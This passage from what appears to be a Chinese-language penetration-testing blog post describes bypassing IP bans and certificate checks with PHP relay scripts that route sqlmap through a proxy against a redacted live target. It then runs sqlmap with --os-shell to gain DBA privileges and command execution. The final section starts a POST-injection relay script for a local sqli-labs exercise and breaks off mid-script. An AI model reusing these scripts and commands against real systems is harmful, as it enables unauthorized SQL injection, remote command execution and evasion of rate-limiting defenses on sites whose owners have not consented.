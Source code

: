  此时中转脚本已经写好了，用sqlmap跑，没想到呀，既然流量有限制，就算请求延迟调得很慢，还是直接将我的ip给封了，此时又是一个漫长的过程，又要继续思考了，在sqlmap中有代理设置参数，哈哈哈这都知道，但是试了试一试不可以，一直思考呀，首先我们借助了中转脚本，先请求的是我们的本地服务器，你说外网的代理服务器直接访问我本地服务器这是一个不现实的问题，最主要是我没有公网服务器，不然就好办了，所以现在需要思考两个问题，首先我要用到中转脚本过证书问题，还要能够使用代理，在PHP代码上使用代理池设置。此时sqlmap先请求我们中转脚本（并没有用代理地址），中转脚本借助设置的代理地址迟访问目标网页。<br/> 现在代码修改成了如下：

```
&lt;?php
set_time_limit(0); 
$id=$_GET["id"]; 
$id=str_replace(" ","%20",$id); 
$id=str_replace("=","%3D",$id); 
$url = "http://xxxx?&amp;daxxtae=null&amp;parame=$id";
echo $url;
$ch = curl_init(); 
curl_setopt($ch, CURLOPT_URL, "$url"); 
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, FALSE);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, FALSE);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_PROXY, 'proxy.xxxx.com'); //代理服务器地址
curl_setopt($ch, CURLOPT_PROXYPORT, '8080'); //代理服务器端口
$output = curl_exec($ch); 
curl_close($ch); 
print_r($output);
?&gt;
```

在使用sqlmap跑的时候最好先本地测试一下，经过了20多分钟的扫描终于算是出东西了

直接看一下能否写shell，搞个高危，运气就是这么好 

```
python2 sqlmap.py -u "http://xxxx?&amp;daxxtae=null&amp;param=xxx" --batch --delay=1 --random-agent --os-shell
```

成功拿到了dba权限 

成功执行命令，不过是真的慢，可能是有防护软件原因吧。<br/><img alt="" src="https://img-blog.csdnimg.cn/b872b2bc8d9c4e11bde96bff754c8c27.png"/>

在这里问题又来了，要是post型注入又该怎么办呢？上面的脚本似乎不在使用思考了很长时间，但是也没有在实际中遇到，所以这里就想本地尝试一次。

## post型中转注入

在注入天书中有post型注入，随便选了一个11关卡，抓取less-11关的包，注入点在登录框这里。

注入点为

```
uname=admin&amp;passwd=hhh&amp;submit=Submit
```

构造中转脚本如下：

```
&lt;?php
$url = "http://192.168.1.104/sqli/Less-11/index.php";
$sql = $_GET[s];//获取中转脚本传过来的payload 
$s = urlencode($sql);
$params = "uname=admin$s&amp;passwd=aa";
$ch = curl_init();// 创建一个新cURL资源
 curl_setopt($ch, CURLOPT_URL, $url);//这是你想用PHP取回的URL地址，可以在用curl_init()函数初始化时设置这个选项
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, FALSE); // https请求 不验证证书
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, FALSE);//https请求 不验证hosts
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); // 函数执行如果成功只将结果返回，不自动输出任何内容。如果失败返回FALSE
curl_setopt($ch, CURLOPT_HEADER, 0);//如果你想把一个头包含在输出中，设置这个选项为一个非零值   
curl_setopt($ch, CURLOPT_USERAGENT, 'Mozilla/5.0 (compatible; MSIE 5.01; Windows NT 5.0)');// 在HTTP请求中自定义一个”user-agent”头的字符串
curl_setopt($ch, CURLOPT_TIMEOUT, 15);//为了应对目标服务器的过载，下线，或者崩溃等可能状况。
```